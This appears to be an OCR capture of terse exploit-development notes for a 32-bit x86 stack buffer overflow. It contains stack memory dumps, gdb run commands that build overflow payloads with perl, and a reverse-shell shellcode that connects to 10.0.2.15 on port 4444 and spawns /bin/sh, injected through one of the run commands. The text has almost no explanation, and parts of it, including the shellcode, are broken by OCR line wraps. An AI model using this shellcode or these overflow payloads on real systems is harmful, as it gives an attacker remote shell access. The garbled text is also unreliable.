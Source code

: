 |   • [12..15] 0x565561ca (spill)
+-----------------------------+
           LOW ADDRESSES


0xffffcd00

\x00\xcd\xff\xff
\x0f\x00\x00\x00
\x10\x00\x00\x00
\x12\x00\x00\x00
\x0c\x00\x00\x00

\xcc\x8f\x55\x56
\x50\xce\xff\xff
\x78\xcd\xff\xff
\xed\x62\x55\x56

run $(perl -e 'print "A"x28'. "\x01\xcd\xff\xff")



AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x01\xcd\xff\xff


"\x01\xcd\xff\xff\x0f\x00\x00\x00\x10\x00\x00\x00\x12\x00\x00\x00\x0c\x00\x00\x00\xcc\x8f\x55\x56\x50\xce\xff\xff\x78\xcd\xff\xff\xed\x62\x55\x56")

\x00\xcd\xff\xff\x0f\x00\x00\x00\x10\x00\x00\x00\x12\x00\x00\x00\x0c\x00\x00\x00\xcc\x8f\x55\x56\x50\xce\xff\xff\x78\xcd\xff\xff\xed\x62\x55\x56



\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80


run $(perl -e 'print "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"')



0xffffcd40


"\x31\xdb\xf7\xe3\
x53\x43\x53\x6a\
x02\x89\xe1\xb0\
x66\xcd\x80\x93\
x59\xb0\x3f\xcd\
x80\x49\x79\xf9\
x68\x0a\x00\x02
"\x0f\x68\x02\x00\
x11\x5c\x89\xe1\
xb0\x66\x50\x51\
x53\xb3\x03\x89\
xe1\xcd\x80\x52\
x68\x6e\x2f\x73\
x68\x68\x2f\x2f
\x62\x69\x89\xe3\
x52\x53\x89\xe1\
xb0\x0b\xcd\x80
